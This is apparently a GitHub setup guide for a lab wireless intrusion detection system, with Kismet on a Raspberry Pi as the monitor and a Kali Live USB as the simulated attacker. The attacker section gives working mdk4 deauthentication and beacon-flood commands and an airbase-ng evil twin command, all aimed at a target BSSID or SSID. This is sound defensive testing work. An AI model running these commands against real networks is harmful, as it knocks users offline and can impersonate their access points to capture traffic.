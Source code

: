 # 🛠️ WIDRS Setup Guide

This guide explains how to set up a Wireless Intrusion Detection and Response System (WIDRS) using:

1. **Raspberry Pi** — as the wireless intrusion detection system  
2. **Kali Linux Live USB** — as the attacker device to simulate wireless threats

---

## 🛰️ 1. Raspberry Pi Setup (Monitoring Device)

### 🔧 Steps

#### 1. Flash Kali Linux to SD Card
- Download the Kali ARM image from [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- Flash the image to an SD card using **Raspberry Pi Imager** or **Balena Etcher**
- Insert the SD card into the Raspberry Pi and boot

#### 2. Update System
```bash
sudo apt update && sudo apt upgrade
```

#### 3. Install Tools
```bash
sudo apt install kismet aircrack-ng
```

#### 4. Enable Monitor Mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
iwconfig
```
- Confirm that `wlan0mon` appears and is active

#### 5. Start Kismet
```bash
sudo kismet
```

#### 6. Access Dashboard
- Open a browser and navigate to: `http://localhost:2501`
- View real-time alerts in the **Alerts** tab

---

## ⚔️ 2. Kali Linux Live USB Setup (Attacker Device)

### 🔧 Steps

#### 1. Flash Kali to USB
- Download the Kali ISO from [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- Flash the ISO to a USB drive using **Rufus** (Windows) or `dd` (Linux/macOS)

#### 2. Boot from USB
- Enter the BIOS/UEFI setup
- Set the USB as the first boot option
- Boot into **Kali Live Mode**

#### 3. Enable Monitor Mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

#### 4. Scan for Nearby Networks
```bash
airodump-ng wlan0mon
```
- Identify your target network’s:
  - **BSSID** (MAC address)
  - **Channel number**

#### 5. Lock Adapter to Target’s Channel
```bash
sudo iwconfig wlan0mon channel <channel_number>
```

---

## 💣 Launch Simulated Attacks

#### 🚫 Deauthentication Flood
```bash
mdk4 wlan0mon d -B <BSSID>
```

#### 🌀 Fake Access Point Flood
```bash
mdk4 wlan0mon b -s 1000
```

#### 🎭 Evil Twin Access Point
```bash
airbase-ng -e "TargetSSID" -c <channel_number> wlan0mon
```

---

## ✅ Detection via Kismet
Kismet on the Raspberry Pi should detect:
- **DEAUTH/FLOOD** — Deauthentication spam
- **EVILTWIN / SPOOF** — Rogue APs mimicking SSIDs
- **FORMATSTRING** — Excessive AP spam or malformed packets

⚠️ **Note**: Ensure both devices are operating on the same Wi-Fi channel for effective detection.

